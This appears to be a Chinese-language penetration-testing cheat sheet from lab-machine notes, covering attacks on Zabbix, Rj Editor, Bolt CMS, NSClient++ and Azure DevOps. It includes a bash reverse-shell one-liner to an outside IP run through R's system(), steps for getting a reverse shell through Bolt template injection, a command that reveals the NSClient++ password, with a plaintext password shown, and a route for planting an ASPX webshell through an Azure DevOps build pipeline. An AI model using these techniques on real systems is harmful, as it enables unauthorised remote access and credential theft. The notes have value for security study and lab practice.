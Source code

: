 
### Zabbix 
查看是否开放623 UDP 端口，如果开放了就可以尝试获取管理员密码
[623 - IPMI (UDP)](0x01%20PORTS%20-%20Checklist/623%20-%20IPMI%20(UDP).md)


### Rj Editor 
系统命令执行:
```bash
system("id", intern=TRUE)
system("bash -c 'bash -i >& /dev/tcp/10.10.14.23/443 0>&1'", intern=TRUE)
```


### Bolt
**bolt CMS 的登录界面位于** `/bolt/bolt`

**Blot 登录后的 SSTI 漏洞拿 Rev Shell**
在 Configuration > Main Configuration 中可以找到 theme 关键词，判断出当前使用的模板
SETTINGS > File management > View File management  , 选择 View & edit templates
选中当前使用的模板后，进入 index.twig , 插入 SSTI Payload    
|> [SSTI Injection](SSTI%20Injection.md)
插入后 Save changes 保存 , 进入 Maintenance > Clear the cache , 点击 Clear the cache
刷新 index 站点，回显位于坐上角


### NSClient ++
**配置文件位置:**
```
C:\Program Files\NSClient++\nsclient.ini
```

**如果有了低权限的 PS Session，可以直接查询密码**
```cmd
nadine@SERVMON C:\Program Files\NSClient++> nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
或者
c:\program files\nsclient++\nsclient.ini
```


### Azure DevOps
**上传 WebShell**
Repos > Files > New branch
![](photos/Pasted%20image%2020240505200451.png)
创建一个分支后，Upload File(s) , 上传 cmd.aspx 
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
新建一个推拉请求 （New Pull Request）> Create
![](photos/Pasted%20image%2020240505205458.png)
进入 Pipelines > Builds ，构建刚刚我们自己创建的分支
![](photos/Pasted%20image%2020240505210152.png)
等待构建完毕，添加 hosts
使用的 spectral-CI 就添加 `spectral.worker.htb`
访问 `http://spectral.worker.htb/cmd.aspx` 得到我们上传的 webshell
![](photos/Pasted%20image%2020240505210628.png)